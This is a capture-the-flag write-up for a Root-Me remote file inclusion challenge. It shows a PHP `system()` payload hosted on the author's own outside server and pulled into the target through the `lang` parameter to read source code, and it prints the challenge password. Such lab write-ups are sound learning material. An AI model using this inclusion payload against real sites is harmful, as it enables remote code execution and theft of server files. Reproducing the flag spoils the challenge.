 # [Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

Much like the local file inclusion challenges, we have PHP that is dynamically including 
files in the code. In this case, the url parameter `lang` is being prepended to `_lang.php`

We know this because we can submit `?lang=a` and we get an error saying that they cannot find 
the file `a_lang.php`.

Being that this is a remote file inclusion bug, what if we set up our own PHP script on our 
own website called `evil_lang.php`. It's contents looking like this:

`<?php echo system('cat index.php'); ?>`

Then include that page in the url:

`?lang=http://zumo22.000webhostapp.com/evil`

NOTE: Turn off PHP execution in your `.htaccess` file so that the PHP gets executed on the 
challenge site and not your server.

View the source of the page and we see raw PHP code!

Password is: **R3m0t3_iS_r3aL1y_3v1l**
